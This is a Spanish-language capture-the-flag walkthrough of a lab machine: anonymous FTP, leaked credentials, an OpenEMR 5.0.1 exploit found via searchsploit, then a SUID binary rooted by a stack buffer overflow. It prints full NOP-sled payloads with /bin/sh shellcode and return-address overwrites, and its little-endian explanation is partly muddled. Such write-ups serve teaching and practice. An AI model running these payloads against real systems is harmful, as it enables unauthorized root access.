


- tags: #openemr #BufferOverflow #FTP #InformationLeakage #linux 
______
se comenzo la maquina con un escaneo de nmap el cual nos reporto 3 puerto abierto, los cuales son los siguientes: 

puerto 21: servicio FTP
puerto 22: SSH
puerto 80: http

una vez que tenemos los puertos como nmap aplicamos un reconociendo con los scripts basicos de reconocimiento. 
_____

____
vemos que en servicio de ftp dice anonymous, por lo que al conectarnos al servicio probaremos por defecto anonymous.

una vez estemos dentro de ftp es recomendable descargar los recursos de interes en nuestra maquina para su posterior inspección eso lo podemos hacer con wget de forma recursiva.

se comprobó con tenemos el puerto 80 abierto, por que investigando y por el nombre de la carpeta que se encontraba en el FTP, podemos ver que un directorio web que nos llevara al siguiente panel 
____

___
es un login-page el cual ya nos da un nombre, **openEMR** ya que tenemos acceso a los archivos de la maquina buscaremos y vemos que encontramos.

buscamos y encontramos una carpeta llamada tests la cual contenía un archivo con el siguiente contenido.
____

_____
parecen ser credenciales de algun lugar, lo probamos en el panel de admin y vemos que sucede.
____

____
ganamos acceso a la pagina, ahora averigüemos la versión del openEMR.

Nos dice que es una version v5.0.1 la cual buscaremos con searhsploit y vemos que nos arroja.
____

_____
nos da el siguiente resultado en python y nos dice que tenemos que contar con las credenciales que nos permiten acceder a la pagina. por lo que este script nos podria funcionar.
___

____
corremos el script y vemos que sucede.
___

___
por lo que obtenemos acceso a la maquina victima.

tendremos que buscar la forma de escalar privilegios por lo que investigamos un poco mas a fondo en los recursos de la maquina.

encontramos un comprimido .zip el cual al intentar descomprimir nos pide una contraseña, por lo que debemos buscarla.

investigando encontramos una contraseña codificada en base64 asi que la probaremos.
____

___
el archivo que estaba dentro del comprimido nos otorga unas credenciales. las cuales nos sirven para migrar de usuario en la maquina.
___

___
una vez que migramos de usuario ahora aplicamos el comando para conocer los binarios del sistema.

con el comando find \-perm -4000 2>/dev/null
___

___
nos muestra un nuevo binario que nos dice no ejecutar, pero al ejecutar nos aparece lo siguiente.
___

___
El mensaje "Segmentation fault (core dumped)" es un error común en sistemas Unix/Linux que indica que un programa ha intentado acceder a una memoria a la que no tenía permiso, provocando que el sistema operativo termine abruptamente el programa para evitar daños. Aquí te explico en detalle qué significa y algunas causas comunes:

### ¿Qué es un Segmentation Fault?

Un "Segmentation fault" ocurre cuando un programa intenta:

1. **Acceder a una dirección de memoria que no está permitida**: Esto incluye leer o escribir en áreas de memoria que no pertenecen al programa.
2. **Acceder a memoria fuera del rango**: Intentar leer o escribir más allá del final de un array o una variable de datos.
3. **Dereferenciar punteros nulos o no inicializados**: Intentar usar un puntero que no apunta a ninguna dirección válida.
4. **Modificar memoria de solo lectura**: Intentar escribir en una zona de memoria que ha sido marcada como de solo lectura.

### ¿Qué es el Core Dump?

Un "core dump" es un volcado de memoria del programa en el momento del fallo. Este volcado contiene el estado de la memoria, registros y la pila de llamadas del programa en el momento en que ocurrió el fallo. Puede ser útil para depurar el programa y encontrar la causa del error.
____
## BufferOverflow
_______

___
### Descripción General de la Imagen

La imagen se divide en dos partes:

1. **A la izquierda**: Representación de una pila antes de un buffer overflow.
2. **A la derecha**: Representación de una pila después de un buffer overflow.

### Explicación de los Componentes de la Pila

#### Estructura de la Pila (Antes del Overflow)

1. **Pila (Stack)**:
    
    - La pila es una estructura de datos en la memoria que crece hacia abajo (de direcciones de memoria altas a bajas).
    - Los datos se almacenan en la pila en bloques de 32 bits (4 bytes).
2. **Registros Importantes**:
    
    - **ESP (Stack Pointer)**: Apunta a la dirección actual en la pila donde se puede almacenar el siguiente dato.
    - **EBP (Base Pointer)**: Utilizado para apuntar a una ubicación fija en la pila, generalmente el comienzo de un marco de pila (stack frame) para una función.
3. **Contenido de la Pila**:
    
    - **AAA**: Representa datos almacenados en la pila, como variables locales.
    - **EBP**: Valor del base pointer antes de la llamada a una función.
    - **RET**: Dirección de retorno, que indica dónde debe regresar la ejecución una vez que la función actual ha terminado.
    - **PARAM 1**: Parámetro de la función.

#### Estructura de la Pila (Después del Overflow)

Después del buffer overflow, la estructura de la pila se ve alterada:

1. **Crecimiento del String en la Pila**:
    - El string "AAAA" se copia en la pila, sobrescribiendo datos adyacentes.
    - El buffer se llena y sobrepasa su límite, sobrescribiendo la dirección de retorno y otros datos importantes.

### Cómo Ocurre un Buffer Overflow

1. **Alocación de un Buffer**:
    
    - Un buffer de tamaño fijo se aloca en la pila para almacenar datos temporales, como una cadena de caracteres.
2. **Escritura en el Buffer**:
    
    - El programa copia datos en el buffer sin verificar el tamaño de los datos, lo que puede resultar en escribir más allá del límite del buffer.
3. **Sobreescritura de la Memoria**:
    
    - Cuando se escriben más datos de los que el buffer puede manejar, los datos adyacentes en la pila (como EBP, dirección de retorno y parámetros) se sobrescriben.

### Consecuencias del Buffer Overflow

1. **Corruptión de la Dirección de Retorno**:
    
    - La dirección de retorno en la pila es sobrescrita. Cuando la función actual intenta regresar, usa una dirección incorrecta, lo que puede provocar un comportamiento indefinido o un "segmentation fault".
2. **Vulnerabilidad de Seguridad**:
    
    - Un atacante puede aprovecharse de un buffer overflow para inyectar código malicioso y alterar el flujo del programa, ejecutando código arbitrario con los permisos del programa afectado.
___
con gdb podemos seguir el flujo del programa y asi saber que estamos haciendo en todo momento.
____

____
al ejecutar gdb podemos usar la letra r para correr el programa el cual nos dira que necesita un argumento por lo que le pasamos el argumento, pero no uno solo. lo que necesitamos es desbordar la pila del programa para ver que nos muestra por lo que nuestro input sera el siguiente.
____

___
con ese input logramos sobre escribir los valores mas alto de la pila y asi lograr que nos muestre lo siguiente.
____

____
ahora lo que debamos averiguar es cuantos caracteres nos hace falta para poder sobre escribir el **EIP**, lo podemos averiguar con **patter create** lo cual nos da un una serie de caracteres los cuales van en grupo de 4, esto nos permitirá identificar hasta donde pueden llegar los caracteres para no sobre pasarnos.
___

____
creamos los caracteres y esos mismos los pasaremos como el input que nos pide el programa y veremos el resultado.
____

___
y nos muestra lo siguiente, los caracteres **daaf** los cuales si los buscamos en el patter ya sabremos los caracteres exactos que necesitamos para no sobre pasarnos.
____

___
entonces seleccionaremos el input hasta **daaf**. pero necesitamos saber cuantos caracteres son en total, entonces utilizando **pattern offset $eip** nos mostrara el tamaño exacto.
___

___
nos muestra que es de 512 en el tamaño total. Lo siguiente que debemos hacer es probar y  ver si en efecto se sobre escribe el **eip** para esto nos aprovechamos de python y colocamos el siguiente comando `r $(python3 -c 'print("A"*512 + "B"*4)')` y asi vemos si realmente funciona.
___

___
vemos que en efecto se sustituye, y en teoría funciona.

ahora debemos verificar con **checksec** los protecciones con las que cuenta el archivo.
___

____
tenemos el NX desactivado, lo que nos permite redirigir el flujo del programa y poder injectar codigo malicioso.

una vez comprobado todo esto podemos continuar desde la maquina victima ejecutando gdb y aplicando las pruebas para ver que sucede.
____

___
### Comando Completo

```sh
(gdb) r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80" + "B"*4')
```

### Desglose del Comando

1. **Contexto de `gdb`**:
   - `(gdb)` indica que este comando se está ejecutando dentro de la sesión del depurador GNU Debugger (GDB).

2. **`r` (run)**:
   - `r` es el comando en GDB para ejecutar el programa desde el inicio.

3. **Subshell de Python**:
   - `$(python -c 'print ...')` ejecuta un comando de Python y pasa su salida como argumento al comando `r` de GDB. Aquí se está utilizando Python para generar una cadena específica.

4. **Cadena Generada por Python**:
   - `python -c 'print ...'` ejecuta una línea de código en Python desde la línea de comandos.

5. **Contenido de la Cadena Generada**:
   - La cadena generada se compone de tres partes:

     a. **`"\x90"*479`**:
        - `"\x90"` es el opcode para la instrucción NOP (No Operation) en ensamblador x86.
        - `"\x90"*479` genera una cadena de 479 bytes llenos de instrucciones NOP.
        
     b. **`"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"`**:
        - Esta secuencia es un shellcode en formato hexadecimal. El shellcode es un fragmento de código en ensamblador que puede ser inyectado en un programa vulnerable para ejecutar comandos arbitrarios. En este caso, parece ser un shellcode para ejecutar `/bin/sh` (una shell de Unix).
        
     c. **`"B"*4`**:
        - `"B"*4` genera una cadena de 4 bytes llenos del carácter 'B'. Este segmento suele ser utilizado para sobreescribir direcciones en la pila, específicamente la dirección de retorno en un buffer overflow.

### Función del Comando

Este comando parece ser parte de un exploit de buffer overflow. El flujo de la ejecución sería algo como esto:

1. **NOP Sled**:
   - La secuencia de 479 instrucciones NOP (`"\x90"*479`) crea una "pista de aterrizaje" que asegura que el flujo de ejecución del programa pase por el shellcode independientemente de pequeñas variaciones en la ubicación de la memoria.

2. **Shellcode**:
   - El shellcode (`"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xcd\x80"`) está diseñado para ejecutar una shell. Cuando se ejecuta, puede proporcionar acceso no autorizado a una shell del sistema.

3. **Sobreescritura de la Dirección de Retorno**:
   - Los 4 bytes `"B"*4` son utilizados para sobreescribir la dirección de retorno en la pila, lo que potencialmente redirige la ejecución del programa al NOP sled y luego al shellcode.

### Conclusión

El comando en cuestión utiliza GDB para ejecutar un programa con un argumento que es una cadena especialmente creada por Python. Esta cadena contiene un NOP sled seguido de un shellcode para lanzar una shell y termina con un intento de sobrescribir la dirección de retorno en la pila. Esto es típico en un ataque de buffer overflow con el propósito de ejecutar código arbitrario.
___
Después de ejecutar el programa podemos utilizar **x/300wx $esp** para examinar el contenido de la memoria.
### Desglose del Comando

- **`x`**: Este es el comando en GDB para examinar la memoria. Es una abreviatura de "examine".
    
- **`/300wx`**: Especifica cómo debe examinarse la memoria. Este segmento se divide en cuatro partes:
    
    - **`300`**: Indica cuántas unidades de memoria deben ser examinadas. En este caso, se examinarán 300 unidades.
    - **`w`**: Indica el tamaño de las unidades de memoria a examinar. `w` significa "word", que en la arquitectura x86 usualmente representa 4 bytes (32 bits).
    - **`x`**: Indica el formato en que se deben mostrar las unidades de memoria. `x` significa "hexadecimal".
- **`$esp`**: Es el registro de la CPU que contiene el puntero de pila (stack pointer). `$esp` apunta a la dirección actual en la pila.
    

### Explicación Detallada

El comando `x/300wx $esp` le dice a GDB que:

1. **Examine la memoria** comenzando en la dirección almacenada en el registro `$esp`.
2. **Lea 300 unidades** de memoria desde esa dirección.
3. **Cada unidad de memoria tiene un tamaño de 4 bytes** (32 bits).
4. **Muestre cada unidad de memoria en formato hexadecimal**.
### Uso Típico

Este comando es útil para:

- **Depuración de pila**: Permite inspeccionar el contenido de la pila, que puede incluir variables locales, direcciones de retorno, parámetros de funciones, etc.
- **Análisis de vulnerabilidades**: En el contexto de la explotación de vulnerabilidades, examinar la pila puede ayudar a identificar la ubicación de sobreescrituras de buffer y otros datos críticos.
_____

___
vez nos da el resultado elegimos una pila y la colocamos en la cabecera de la pila, la cual redirigirá el flujo del programa.
___
### Salida de la Memoria

La salida de la memoria es una captura del contenido de la pila en el depurador GDB. La dirección inicial es `0xffffd640` y las siguientes direcciones contienen datos en formato hexadecimal. Aquí hay un desglose:
#### Pila con Instrucciones NOP

```plaintext
0xffffd640:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd650:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd660:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd670:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd680:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd690:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd6a0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd6b0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd6c0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd6d0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd6e0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd6f0:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd700:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd710:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd720:    0x90909090    0x90909090    0x90909090    0x90909090
0xffffd730:    0x90909090    0x90909090    0x90909090    0x90909090
```

Estas líneas contienen la instrucción NOP (No Operation) `0x90`, que es comúnmente utilizada en un "NOP sled" en exploits de buffer overflow. Esto ayuda a garantizar que el flujo de ejecución caiga dentro del shellcode.
### Representación de la Dirección en la Pila

En sistemas de arquitectura **x86** (de 32 bits), la pila utiliza el formato **little-endian** para almacenar datos. Esto significa que los bytes de una palabra se almacenan en orden inverso al que se escriben.

Cuando ves una dirección como `\x70\xd6\xff\xff`, en realidad se almacena en la pila de la siguiente manera:
### Little-endian Order

La dirección `\x70\xd6\xff\xff` se almacena en la pila en el orden inverso:

- La dirección `\x70\xd6\xff\xff` se almacenará en memoria como:
  ```plaintext
  ff ff d6 70
  ```

Esto es importante porque el procesador leerá los bytes en el orden correcto cuando utilice la dirección.
### Revisión del Comando

Dado el comando:
```sh
(gdb) r $(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x70\xd6\xff\xff"')
```

Aquí la parte final `"\x70\xd6\xff\xff"` debe sobrescribir la dirección de retorno en la pila, redirigiéndola al comienzo del NOP sled.
### Almacenamiento en la Pila

Supongamos que `$esp` apunta a `0xffffd760`, entonces la dirección `\x70\xd6\xff\xff` se almacenará en la pila de la siguiente manera:

```plaintext
0xffffd760:  0x80ff4242  (Dirección siguiente después de shellcode)
0xffffd764:  0xffffd670  (Almacenado en little-endian)
```

En la salida de memoria de GDB, esto se vería como:

```plaintext
0xffffd760:    0x42424280    0x70d6ffff
```
### Función del Comando Revisada

El comando intenta explotar una vulnerabilidad de buffer overflow como sigue:

1. **NOP Sled**:
   - `"\x90"*479`: Crea una zona de 479 bytes de instrucciones NOP (`0x90`).

2. **Shellcode**:
   - `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`: Este shellcode ejecuta `/bin/sh`.

3. **Sobrescritura de la Dirección de Retorno**:
   - `"\x70\xd6\xff\xff"`: Sobrescribe la dirección de retorno con `0xffffd670`, en formato little-endian, para redirigir la ejecución al NOP sled.

Cuando el programa ejecuta el payload:

- La dirección de retorno en la pila se sobrescribe con `\x70\xd6\xff\xff` (que es `0xffffd670` en little-endian).
- Al regresar de la función actual, el CPU leerá la dirección `0xffffd670`, saltando al comienzo del NOP sled.
- El flujo de ejecución recorrerá el NOP sled y alcanzará el shellcode.
- El shellcode se ejecuta, abriendo una shell interactiva (`/bin/sh`).
### Conclusión

El comando `r $(python -c 'print ...')` efectivamente crea un payload para explotar una vulnerabilidad de buffer overflow. La cadena `\x70\xd6\xff\xff` debe ser interpretada en formato little-endian al almacenarse en la pila, redirigiendo la ejecución del programa al NOP sled y, finalmente, al shellcode. Esta técnica es clásica en la explotación de buffer overflows en sistemas x86.
____
ya para terminar vemos que toda las ejecuciones y pruebas fueron realizadas en gdb, y ahora debemos ejecutar el comando de antes pero ya en el maquina victima de la siguiente forma.
___

___
es así que al ejecutarse obtenemos una bash y seriamos usuario root.
___


FIN....